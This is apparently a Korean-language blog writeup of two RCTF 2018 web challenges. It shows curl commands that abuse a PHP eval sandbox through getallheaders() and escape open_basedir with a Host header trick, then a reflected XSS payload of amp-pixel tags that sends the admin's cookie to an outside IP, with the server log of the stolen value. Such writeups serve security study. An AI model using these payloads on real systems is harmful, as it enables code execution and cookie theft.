 ```yaml
---
layout: post
title: "RCTF 2018 Quals Writeup"
comments: true
description: "RCTF 2018 Quals Challenge writeup"
keywords: "web, open_basedir, eval, pwn"
---
```


## Introduce

뭔가 요즘 xctf 플랫폼을 많이 사용하는 것 같다.

## writeup

### - r-cursive

> LUL dat font
>
> http://r-cursive.ml

문제에 접속하면 단순히 sandbox를 생성해주는 페이지에 접속한다.~~(폰트가 정말 거지같다.)~~

```html
<?php
$token = sha1($_SERVER['REMOTE_ADDR']);
$dir = '../sandbox/'.$token.'/';
is_dir($dir) ?: mkdir($dir);
is_file($dir.'index.php') ?: file_put_contents($dir.'index.php', str_replace('#SHA1#', $token, file_get_contents('./template')));
switch($_GET['action'] ?: ''){
    case 'go':
        header('Location: http://'.$token.'.sandbox.r-cursive.ml:1337/');
        break;
    case 'reset':
        system('rm -rf '.$dir);
        break;
    default:
        show_source(__FILE__);
}
?>
<style>code{font-family: Segoe Script, Brush Script MT, cursive; font-size: 1.337em;}</style>
```

action=go를 통해 sandbox페이지로 이동해보면 소스코드는 간단하다.

```html
<?php
sha1($_SERVER['REMOTE_ADDR']) === 'c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295' ?: die();
';' === preg_replace('/[^\W_]+\((?R)?\)/', NULL, $_GET['cmd']) ? eval($_GET['cmd']) : show_source(__FILE__);
```

cmd뒤에 명령어를 삽입해주면 되는데, 정규식으로 인해 쿼리는 `phpinfo();`, `print_r(scandir(getcwd()));` 와 같은 형태로 함수로만 넣을 수 있다.

하지만 이 문제는 `open_basedir`이 적용되어 있어, `/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/`,`/tmp/` 외의 디렉토리는 사용할 수 없다.

disable_functions, disable_classes를 보기위해 `phpinfo()` 를 실행시켰는데, 다른 것 또한 발견하였다.

```ini
disable_functions = system,shell_exec,passthru,exec,popen,proc_open,pcntl_exec,mail,putenv,apache_setenv,mb_send_mail,assert,dl,set_time_limit,ignore_user_abort,symlink,link	
disable_clsass = GlobIterator,DirectoryIterator,FilesystemIterator,RecursiveDirectoryIterator	
auto_prepend_file = /var/www/sandbox/init.php
open_basedir = /var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/	
Loaded Modules = ... mod_vhost_alias
```

우선 정규식을 우회하기 위해 `getallheaders()`함수를 사용했다.

```
$ curl "http://c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295.sandbox.r-cursive.ml:1337/?cmd=eval(end(getallheaders()));" -H "a:print_r(readfile('../init.php'));print_r(ini_get('open_basedir'));" 
<br />
<b>Warning</b>:  readfile(): open_basedir restriction in effect. File(../init.php) is not within the allowed path(s): (/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/) in <b>/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/index.php(3) : eval()'d code(1) : eval()'d code</b> on line <b>1</b><br />
<br />
<b>Warning</b>:  readfile(../init.php): failed to open stream: Operation not permitted in <b>/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/index.php(3) : eval()'d code(1) : eval()'d code</b> on line <b>1</b><br />
/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/
```

이제 `open_basedir`을 우회하기 위해 header의 host를 `.r-cursive.ml` 로 변경하였고, 이로 인해 sandbox를 탈출하여 init.php를 열었고 플래그를 획득할 수 있었다.

```
$ curl "http://c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295.sandbox.r-cursive.ml:1337/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/?cmd=eval(end(getallheaders()));" -H "a:print_r(readfile('../init.php'));print_r(ini_get('open_basedir'));" -vv -H "Host:.r-cursive.ml"

<?php
    ini_set("open_basedir", $_SERVER['DOCUMENT_ROOT']."/:/tmp/");
    // flag: RCTF{apache_mod_vhost_alias_should_be_configured_correctly}
?>
```

FLAG : RCTF{apache_mod_vhost_alias_should_be_configured_correctly}

### - AMP

> Building the future web, together.
>
> http://amp.2018.teamrois.cn
>
> 

페이지에 접속하면 steins;gate 0를 배경으로 한 페이지가 나타난다.

```html
<!doctype html>
<html ⚡>
  <head>
    <meta charset="utf-8">
    <script async src="https://cdn.ampproject.org/v0.js" nonce="a42dd51d96f82575cfd2fe674c3bb46e"></script>
    <title>⚡</title>
    <link rel="canonical" href="http://example.ampproject.org/article-metadata.html">
    <meta name="viewport" content="width=device-width,minimum-scale=1,initial-scale=1">
    <script type="application/ld+json" nonce="a42dd51d96f82575cfd2fe674c3bb46e">
      {
        "@context": "http://schema.org",
        "@type": "NewsArticle",
        "headline": "Open-source framework for publishing content",
        "datePublished": "2015-10-07T12:02:41Z",
        "image": [
          "logo.jpg"
        ]
      }
    </script>
    <style amp-boilerplate>body{-webkit-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-moz-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-ms-animation:-amp-start 8s steps(1,end) 0s 1 normal both;animation:-amp-start 8s steps(1,end) 0s 1 normal both}@-webkit-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-moz-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-ms-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-o-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}</style><noscript><style amp-boilerplate>body{-webkit-animation:none;-moz-animation:none;-ms-animation:none;animation:none}</style></noscript>
    <style amp-custom>body {background:url(background.jpg) no-repeat;background-size:cover;}html,body,.main{min-height:100vh;width:100%;color:#fff;}.main{align-items: center;display: flex;justify-content: center; flex-direction: column;}.main *{ zoom: 2;}.grecaptcha-badge{display: none}</style>
  </head>
  <body>
      <div class="main">
        <h1>HEY</h1>
        <h3>INPUT YOUR NAME AFTER QUERYSTRING</h3>
      </div>
  </body>
</html>

```

Querystring에 name을 넣으라고 하니까 넣어보자.

```
http://amp.2018.teamrois.cn/?name=shpik
```

그러면 페이지에 다음과 같은 문구가 추가된다.

```html
Dear shpik:
YOU'RE BEING TRACKING
<!-- OK, I don't care AMP Standard -->
<!-- It just wastes my time. -->
[STOP TRACKING ME]
```

..?  `STOP TRACKING ME` 를 누르면 뭔가 admin이 이 페이지를 읽는 것 같다.

그 외에 스크립트 또한 삽입이 잘 되는 걸로 봐서 `Reflect XSS` 인 모양이다. 

`AMP`라는 `javascript` 모듈을 사용하는 것 같아서 찾아보았고, 다음의 정보를 찾았다.([AMP Project](https://github.com/ampproject/amphtml/blob/master/spec/amp-var-substitutions.md#client-id))

> #### Client ID
>
> Provides a per document-source-origin (the origin of the website where you publish your AMP doc) and user identifier. The client ID will be the same for the same user if they visit again within one year. The client ID should behave roughly similar to a cookie storing a session ID for one year. If the AMP document is not served through the Google AMP Cache, the client ID is replaced with a cookie of the name of the `cid scope` argument (see below). If it is not present, a cookie will be set with the same name. These cookies will always have the prefix "amp-" followed by a random base64 encoded string.
>
> - **platform variable**: `CLIENT_ID`
>
>   - Example: 
>
>   ```
>   <amp-pixel src="https://foo.com/pixel?cid=CLIENT_ID(cid-scope-cookie-fallback-name)"></amp-pixel>
>   
>   <amp-user-notification
>       layout=nodisplay
>       id="user-consent"
>       data-show-if-href="https://foo.com/api/show"
>       data-dismiss-href="https://foo.com/api/dismissed">
>       This site uses cookies to personalize content.
>       <a href="">Learn more.</a>
>      <button on="tap:user-consent.dismiss">I accept</button>
>   </amp-user-notification>
>   
>   <!-- Client ID is not provided until `user-consent` is dismissed -->
>   <amp-pixel src="https://foo.com/pixel?cid=CLIENT_ID(cid-scope-cookie-fallback-name,user-consent)"></amp-pixel>
>   ```
>
> - **amp-analytics variable**: `${clientId}`
>
>   - Example usage: `${clientId(foo)}`
>   - Example value: `U6XEpUs3yaeQyR2DKATQH1pTZ6kg140fvuLbtl5nynbUWtIodJxP5TEIYBic4qcV`

저기에 있는 `Example` 을 그냥 가져다 써도 될 것 같다.

```html
<amp-pixel src="https://35.200.67.206:10101/?cid=CLIENT_ID(FLAG)"></amp-pixel>
<amp-user-notification layout=nodisplay id="FLAG" data-show-if-href="https://35.200.67.206:10101" data-dismiss-href="https://35.200.67.206:10101">This site uses cookies to personalize content.<a href="">Learn more.</a><button on="tap:user-consent.dismiss">I accept</button></amp-user-notification>
<amp-pixel src="https://35.200.67.206:10101/?cid=CLIENT_ID(FLAG,FLAG)"></amp-pixel>
```

위의 코드를 name으로 넣어주었으며, FLAG를 얻을 수 있었다.

```
"GET /?cid=flag_is_in_admin_cookie HTTP/1.1" 200 -
"GET /?cid= HTTP/1.1" 200 -
"GET /?cid=RCTF%7BEl_PsY_CONGRO0_sg0%7D HTTP/1.1" 200 -
"GET /?cid= HTTP/1.1" 200 - 
```

FLAG : RCTF{El_PsY_CONGRO0_sg0}